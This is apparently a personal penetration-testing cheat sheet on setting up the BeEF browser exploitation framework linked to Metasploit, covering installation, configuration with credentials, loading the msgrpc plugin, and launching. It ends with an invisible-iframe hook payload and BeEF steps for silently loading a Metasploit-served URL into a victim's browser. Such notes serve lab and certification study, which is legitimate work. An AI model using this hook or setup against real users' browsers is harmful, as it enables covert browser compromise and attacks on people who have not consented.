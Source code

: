 # beef browser exploitation

## beef-xss installation

```bash
# clone from git in /opt
- sudo git clone https://github.com/beefproject/beef
./install

# enable connection to msf
# change default user:pass
$ subl /etc/beef-xss/config.yaml
credentials:
    user:   "kashz"
    passwd: "beef-xss"
metasploit:
    enable: true
```

## Connect MSF with beef

```bash
$ subl /usr/share/beef-xss/extensions/metasploit/config.yaml
host: "<tun0-IP>"
callback_host: "<tun0-IP>"
```

## Launch beef

```bash
# launch msf first
$ msfconsole -q
msf6 > load msgrpc ServerHost=<tun0-IP> Pass=kashz
[*] MSGRPC Service:  <>
[*] MSGRPC Username: msf
[*] MSGRPC Password: kashz
[*] Successfully loaded plugin: msgrpc

$ sudo /usr/share/beef-xss/beef -x
# takes a min to load everything up
```

## iFrame manual hook

```bash
<iframe src="<URL>" style="position: absolute;width:5;height:5;border:5;"></iframe>
```

## Send via beef

```bash
Commands > Misc > Create Invisible iFrame
# set URL as given by msf
```
